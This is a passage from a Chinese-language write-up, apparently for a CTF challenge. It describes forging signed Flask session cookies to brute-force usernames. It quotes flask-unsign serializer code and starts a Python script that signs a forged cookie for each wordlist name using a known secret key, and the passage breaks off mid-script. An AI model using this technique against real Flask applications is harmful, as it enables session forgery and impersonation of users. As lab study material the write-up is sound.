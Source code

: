 ## 带有 Cookie 的暴力用户名

使用time将可能的用户名生成一个cookie 列表。

[![](assets/1701678249-2f012717a100ed2dbe8a957099aee029.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130213634-7ab70776-8f85-1.png)

## 代码分析

这将获取一个名称列表并生成我需要的所有 cookie。这实际上很慢，运行时间超过 8 分钟。这是因为每项工作都必须启动，其中包括导入所有 Flask。  
我可以深入研究一下flask-unsign源代码，并跟踪我用--sign.  
@lru\_cache()  
def get\_serializer(secret: str, legacy: bool, salt: str) -> URLSafeTimedSerializer:

```plain
"""
    Get a (cached) serializer instance
    :param secret: Secret key
    :param salt: Salt
    :param legacy: Should the legacy timestamp generator be used?
    :return: Flask session serializer
    """
    if legacy:
        signer = LegacyTimestampSigner
    else:
        signer = TimestampSigner

    return URLSafeTimedSerializer(
        secret_key=secret,
        salt=salt,
        serializer=TaggedJSONSerializer(),
        signer=signer,
        signer_kwargs={
            'key_derivation': 'hmac',
            'digest_method': hashlib.sha1})
```

向后追溯，我可以发现默认的 salt 是“cookie-session”。我知道或只是在文件顶部导入的其他内容。我可以使用它来生成我自己的脚本：

```plain
#!/usr/bin/env python3

import hashlib
import sys
from flask.json.tag import TaggedJSONSerializer
from itsdangerous import TimestampSigner, URLSafeTimedSerializer

if len(sys.argv) < 2:
    print(f"{sys.argv[0]} [wordlist]")
    sys.exit()

with open(sys.argv[1], 'r') as f:
    names = f.readlines()

for name in names:
    cookie = URLSafeTimedSerializer(
            secret_key='secret123',
            salt='cookie-session',
            serializer=TaggedJSONSerializer(),
            signer=TimestampSigner,
            signer_kwargs={
```